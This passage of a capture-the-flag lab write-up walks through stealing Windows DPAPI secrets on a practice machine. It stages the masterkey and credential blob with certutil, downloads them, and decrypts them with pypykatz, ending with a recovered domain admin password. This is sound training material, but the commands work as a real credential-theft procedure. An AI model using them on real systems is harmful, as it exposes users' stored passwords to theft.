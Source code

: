 Windows DPAPI (Data Protection API) is used to protect sensitive data such as stored credentials. By extracting the masterkey and credential blobs, and then decrypting them offline, we can recover cleartext credentials of domain users.

![Master Key](./Master_KEY.png)

We use `ls -force` to reveal hidden system files, which were otherwise invisible. Hence, we cannot copy or download the master key normally. For this, we use `certutil` to base64 encode the key and save it to Desktop and later decode it.
```
certutil -encode 556a2412-1275-4ccf-b721-e6a0b4f90407 C:/Users/steph.cooper/Desktop/masterkey.b64
```

Similarly, we get the credentials stored in `C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials` as well 
```
certutil -encode C8D69EBE9A43E9DEBF6B5FBD48B521B9 C:/Users/steph.cooper/Desktop/creds.b64
```

Finally, we navigate back to the Desktop directory, decode them and download the decoded files.
```
cd C:/Users/steph.cooper/Desktop
certutil -decode masterkey.b64 master.bin
certutil -decode creds.b64 creds_blob
```
```
download master.bin
download creds_blob
```

### Credential Recovery
We use `pypykatz` to recover the credentials.
In the folder in which we downloaded the keys, we execute the following commands.

First, to generate the prekeys,
```
pypykatz dpapi prekey password 'S-1-5-21-1487982659-1829050783-2281216199-1107' 'ChefSteph2025!' | tee prekeys.txt
```
And then, to extract the master key (encrypted using user password by default)
```
pypykatz dpapi masterkey ./masterkey.bin prekeys.txt -o mk.json
```
And finally,
```
pypykatz dpapi credential mk.json creds_blob
```
Which gives us,
```
type : DOMAIN_PASSWORD (2)
last_written : 133859228697062409
target : Domain:target=PUPPY.HTB
username : steph.cooper_adm
unknown4 : b'F\x00i\x00v\x00e\x00t\x00h\x00C\x00h\x00i\x00p\x00O\x00n\x00I\x00t\x00s\x00W\x00a\x00y\x002\x000\x002\x005\x00!\x00'
```
